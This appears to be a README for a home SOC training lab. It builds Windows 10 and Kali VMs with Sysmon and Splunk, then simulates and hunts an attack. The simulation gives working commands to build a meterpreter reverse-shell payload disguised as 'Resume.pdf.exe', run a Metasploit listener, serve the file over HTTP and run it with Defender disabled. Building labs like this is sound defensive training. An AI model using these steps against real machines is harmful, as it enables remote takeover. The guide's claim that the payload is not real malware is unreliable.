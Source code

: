 ***Lab Setup Guide***

Network Topology

Primary Network: NAT (internet access for downloads)
Internal Network: 192.168.20.0/24 (isolated attack simulation)
Victim Machine: 192.168.20.10 (Windows 10)
Attacker Machine: 192.168.20.11 (Kali Linux)
SIEM: Splunk Enterprise (installed on Windows victim)

📋 Prerequisites

Hardware: 12GB RAM minimum, 80GB free disk space
Hypervisor: VirtualBox 6.0+
Network: Dual adapter setup (NAT + Internal)

🖥️ Virtual Machine Setup
1. Windows 10 Victim Machine
bash# VM Specifications
CPU: 2 cores
RAM: 6GB
Disk: 60GB
Network Adapter 1: NAT (internet access)
Network Adapter 2: Internal Network "intnet" (192.168.20.0/24)
Configuration Steps:

Install Windows 10 Enterprise/Pro
Network Setup:

Adapter 1: DHCP (automatic for internet)
Adapter 2: Static IP 192.168.20.10, Subnet 255.255.255.0


Security Configuration:

Disable Windows Defender Real-time Protection (lab only!)
Enable RDP: Settings > System > Remote Desktop


Splunk Enterprise Installation:

Download Splunk Enterprise (free license)
Install with default settings
Access via http://localhost:8000



2. Kali Linux Attacker Machine
bash# VM Specifications  
CPU: 2 cores
RAM: 4GB
Disk: 40GB
Network Adapter 1: NAT (internet access)
Network Adapter 2: Internal Network "intnet" (192.168.20.0/24)
Configuration Steps:

Install Kali Linux 2023.4+
Network Setup:

Adapter 1: DHCP (automatic for internet)
Adapter 2: Static IP 192.168.20.11, Subnet 255.255.255.0


Tool Verification:
bash# Verify essential tools are available
which msfvenom
which msfconsole
which nmap
which python3


🔧 Software Installation
Sysmon Configuration (Windows Victim)

Download Sysmon from Microsoft Sysinternals
Download Olaf Configuration:
powershell# Download from GitHub
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/olafhartong/sysmon-modular/master/sysmonconfig.xml" -OutFile "sysmonconfig.xml"

Install Sysmon:
powershell# Run as Administrator
.\sysmon64.exe -accepteula -i sysmonconfig.xml

Verify Installation:
powershellGet-Service Sysmon64
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Select-Object -First 5


Splunk Configuration (Windows Victim)

Create Endpoint Index:

Go to Settings > Indexes > New Index
Index Name: endpoint
Save


Configure Data Inputs:

Go to Settings > Data Inputs > Windows Event Logs
Add: Microsoft-Windows-Sysmon/Operational
Index: endpoint


Manual inputs.conf Configuration (Alternative):
ini# Edit: $SPLUNK_HOME\etc\system\local\inputs.conf
[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = false
index = endpoint
sourcetype = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational


🎯 Attack Simulation Workflow
1. Network Reconnaissance (Kali Linux)
bash# Verify internal network connectivity
ping 192.168.20.10

# Perform detailed nmap scan
nmap -A 192.168.20.10 -Pn
# Expected result: Port 3389 (RDP) should be open
2. Payload Creation (Kali Linux)
bash# List available payloads (optional)
msfvenom -l payloads | grep windows

# Create reverse shell payload
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.20.11 lport=4444 -f exe -o Resume.pdf.exe
3. Listener Setup (Kali Linux)
bash# Start Metasploit console
msfconsole

# Configure handler
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.20.11
set lport 4444
exploit

# Keep this terminal open and listening
4. Payload Delivery Setup (Kali Linux - New Terminal)
bash# Start HTTP server for payload delivery
python3 -m http.server 9999

# Payload will be available at: http://192.168.20.11:9999/Resume.pdf.exe
5. Payload Execution (Windows Victim)

Disable Windows Defender (Real-time Protection)
Open Firefox/Chrome and navigate to: 192.168.20.11:9999
Download Resume.pdf.exe and execute it
Verify connection in Metasploit terminal (should show meterpreter session)

🚀 Validation Steps
1. Network Connectivity Test
bash# From Kali Linux
ping 192.168.20.10  # Should reach Windows victim
curl http://192.168.20.10  # Should fail (no web server)

# From Windows
ping 192.168.20.11  # Should reach Kali attacker
2. Splunk Data Ingestion Test
splunk# Search for initial Sysmon events
index=endpoint source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
| head 10

# Search for malware execution (after attack)
index=endpoint "Resume.pdf.exe"
3. SOC Analysis Validation
splunk# Get process GUID from initial search
index=endpoint "Resume.pdf.exe" | head 1

# Use the ProcessGuid for detailed analysis
index=endpoint "<ProcessGuid-from-above>"
| table _time,ParentImage,Image,CommandLine

# Expected results: Should show cmd.exe processes with net user, net localgroup, ipconfig
4. Threat Hunting Query Test
splunk# PDF masquerading detection
index=endpoint EventCode=1 
| where match(Image, "\\.pdf\\.exe$")
| table _time, Computer, Image, CommandLine

# Should return the Resume.pdf.exe execution
⚠️ Security Considerations
⚠️ CRITICAL: This lab contains live malware and attack techniques

Isolated Environment Only: Never connect to production networks
Windows Defender Disabled: Restore real-time protection after testing
Snapshots Recommended: Take VM snapshots before malware execution
Network Isolation: Internal network prevents external communication
Controlled Malware: Resume.pdf.exe is a test payload, not real malware

🔧 Troubleshooting
Common Issues:

Meterpreter won't connect: Check firewall settings and IP addresses
No Sysmon logs in Splunk: Restart Splunk service and verify inputs.conf
Network connectivity issues: Verify both VMs have internal network adapter enabled
HTTP server not accessible: Check Python HTTP server is running on port 9999

Quick Fixes:
bash# Restart Splunk (Windows)
net stop splunkd
net start splunkd

# Verify internal network (both VMs)
ipconfig /all  # Windows
ip addr show   # Linux
